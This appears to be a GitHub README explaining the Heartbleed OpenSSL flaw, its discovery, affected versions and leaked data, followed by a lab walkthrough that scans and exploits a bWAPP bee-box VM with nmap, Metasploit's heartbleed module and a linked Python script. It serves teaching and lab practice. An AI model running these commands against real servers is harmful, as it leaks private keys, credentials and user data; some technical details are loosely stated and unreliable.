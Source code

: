 # Heartbleed Exploit on OpenSSL  (CVE 2014-0160)

## What is Heartbleed Exploit
### Why is this exploit called Heartbleed?

* It is named after the extension protocol which SSL/TLS protocols used called Heartbeat Extension

* While TLS handshaking it sends packet called heartbeat packet to another system to keep TLS connection up every time so that it save time that initialization of TLS take. It sends it multiple time nonstop.

### Why It Happens?

* There is programming mistake in OpenSSL Library called libssl which handles the execution of SSL/TSL protocol

### How Big it is?

* OpenSSL is mostly used by opensource webservers like Apache and nginx. So combined market share of just these on inter is 66% as per [Netcraft's April 2014 Web Server Survey](https://news.netcraft.com/archives/2014/04/02/april-2014-web-server-survey.html)[1]

### Who found it?

* It was found by group of security engineers while working on SafeGuard feature in Codenomicon's Defensics [security testing tools](https://www.synopsys.com/software-integrity/security-testing.html) [2]

* They reported this bug to NCSC-FI(National Cyber Security Center Finland) to take further action and tell OpenSSL

* 3rd of April 2014, [NCSC-FI](https://www.kyberturvallisuuskeskus.fi/en) [3] took up the task of verifying it, analyzing it further and reaching out to the authors of OpenSSL, software, operating system and appliance vendors, which were potentially affected.

### What versions are affected?

* Bug was introduced to OpenSSL in December 2011 and has been out in the wild since

* OpenSSL release 1.0.1 on 14th of March 2012.

### Is it is Solved Now?

* OpenSSL 1.0.1g released on 7th of April 2014 fixes the bug

## How Heartbleed Exploit  Works

* Normally the system sends the heatbeat extension packet of 65536 bytes with some payload to another system to keep TLS connection active . In return another system send back same payload with some padding. This packet goes to and fro multiple time just to keep TSL active to save time taken by TLS to initialise so that fast communication can be done.
![alt text](https://raw.githubusercontent.com/95keshav/openssl/main/heartbleed.png)
* But there is flow in the code of OpenSSL it does not check the lenght of packet.
![alt text](https://raw.githubusercontent.com/95keshav/openssl/main/heartbleed_hacked.png)
* Hackers use this flow to exploit the packet, They send packet with just 1 byte of data and keep other bytes empty, System do not confirm the lenght and save it in memory. When System sends back response it does not know that packet size was only of 1 byte. and it copy 65536 bytes from memory and sent back to hacker
* That data from memroy may contain SSL private keys, User credentials, System Memory address.
[To Get more information on Heartbleed click here](https://www.youtube.com/watch?v=WgrBrPW_Zn4)

## What Data is being leaked?
* Data being leaked comes under 4 categories

	1. Primary Key material

		* Encryption keys

	2. Secondary Key  material

		* Username and  Password

	3. Protected content

		* Financial Data

		* Private Communication e.g. email

		* Documents worth protected

	4. Collateral

		* Leaked  Memory  Content

		* Memory Addresses

		* Security measures  used  e.g. canaries used for overflow



## Affects of Heartbleed Exploit
1. [Millions of Vulnerable Systems Unpatched for Severe Bugs Including BlueKeep and Heartbleed Despite NSA Warnings](https://www.cpomagazine.com/cyber-security/millions-of-vulnerable-systems-unpatched-for-severe-bugs-including-bluekeep-and-heartbleed-despite-nsa-warnings/)
2. [Heartbleed bug crisis hit more government computers than previously disclosed](https://www.cbc.ca/news/politics/heartbleed-bug-cyberattack-canada-government-departments-1.3355993)
3. [900 SINs stolen due to Heartbleed bug: Canada Revenue Agency](https://globalnews.ca/news/1269168/900-sin-numbers-stolen-due-to-heartbleed-bug-canada-revenue-agency/)
4. [Devastating Heartbleed Flaw Was Used in Hospital Hack](https://time.com/3148773/report-devastating-heartbleed-flaw-was-used-in-hospital-hack/)
5. [Heartbleed](https://heartbleed.com/)



## OpenSSL Heartbleed Exploit



#### Tools needed

1. A bee-box virtual machine with OpenSSL in version 1.0.1~1.0.2  provided by bWAPP     

   [Download URL](https://sourceforge.net/projects/bwapp/files/bee-box/)

   **bWAPP and bee-box**: bWAPP is short for buggy web application, it allows us to implement penetration testing and ethical hacking projects. Over 100 web bugs are covered which include all major web vulnerabilities. The bee-box is the vulnerable virtual machine provided by bWAPP that can be used for CVE exploits.

2. A Kali-Linux virtual machine（Nmap；Metasploit；Python script）

   [Download URL](https://www.kali.org/downloads/)
   
   **Kali-Linux**: Kali-Linux is a kind of Debian Linux which is widely used in ethical hacking. It has hundreds of pre-installed ethical hacking tools. In this presentation, we will use it to hack the vulnerable bee-box.
   
   **Nmap**: Nmap is short for Network Mapper, it is an open-source network scanner started by Gordon Lyon. Nmap is a tool for probing computer networks and it is able to detect vulnerabilities.
   
   **Metasploit**: Metasploit is a well-known tool deals with computer security, it provides numerous methodologies for vulnerability exploitation. In this presentation, we will use it to execute the exploit of heartbleed vulnerability.
   
   

#### Method 1：

1. Open the 2 virtual machines.

2. Use ifconfig command to check the IP address of the bee-box.

3. Use Nmap tool in Kali-Linux to check the heartbleed vulnerability in the bee-box.

~~~
nmap -sV -p 8443 --script ssl-heartbleed.nse 192.168.2.130
~~~

4. Enter the Metasploit tool in Kali-Linux.

~~~
msfconsole
~~~

5. Search the auxiliary of heartbleed cve in Metasploit.

~~~
search cve-2014-0160
~~~

6. Pick the OpenSSL heartbleed auxiliary and use it.

~~~
use auxiliary/scanner/ssl/openssl_heartbleed
~~~

7. Set target host and port, and set verbose true to make the process seen, then exploit.

~~~
set RHOST 192.168.2.130
~~~

~~~
set RPORT 8443
~~~

~~~
set verbose true
~~~

~~~
exploit
~~~



#### Method 2:

1. Open the 2 virtual machines.

2. Use ifconfig command to check the IP address of the bee-box.

3. Use vim command to create a script  [heartbleed.py](https://github.com/ctfs/write-ups-2014/blob/master/plaid-ctf-2014/heartbleed/heartbleed.py) in Kali-Linux  in Kali-Linux.

4. Ran the script.

   ~~~
   python heartbleed.py 192.168.2.130 -p 8443
   ~~~

   

## References:
[1] Netcraft's April 2014 Web Server Survey, https://news.netcraft.com/archives/2014/04/02/april-2014-web-server-survey.html.

[2] Application Security and Quality Analysis Tools, https://www.synopsys.com/software-integrity/security-testing.html.

[3] NCSC-FI, https://www.kyberturvallisuuskeskus.fi/en,https://news.netcraft.com/archives/2014/04/02/april-2014-web-server-survey.html.

[4] Heartbleed bug News, https://heartbleed.com/.

[5] Heartbleed bug News, https://heartbleed.com/.

[6] Heartbleed bug News, https://heartbleed.com/.![image](https://user-images.githubusercontent.com/52240576/111923122-ed2db580-8a73-11eb-8305-ed1cb52efffe.png)

[7] Hacking Tools, https://www.concise-courses.com/hacking-tools/

[8] Exploitation Turtorial, https://www.youtube.com/watch?v=SgJm0C6jzbo&t=47s

[9] Heartbleed script, https://github.com/ctfs/write-ups-2014/blob/master/plaid-ctf-2014/heartbleed/heartbleed.py

[10] bWAPP, https://sourceforge.net/projects/bwapp/files/bee-box/

[11] Kali-Linux, https://www.kali.org

[12] Metasploit, https://en.wikipedia.org/wiki/Metasploit_Project

[13] Nmap, https://en.wikipedia.org/wiki/Nmap

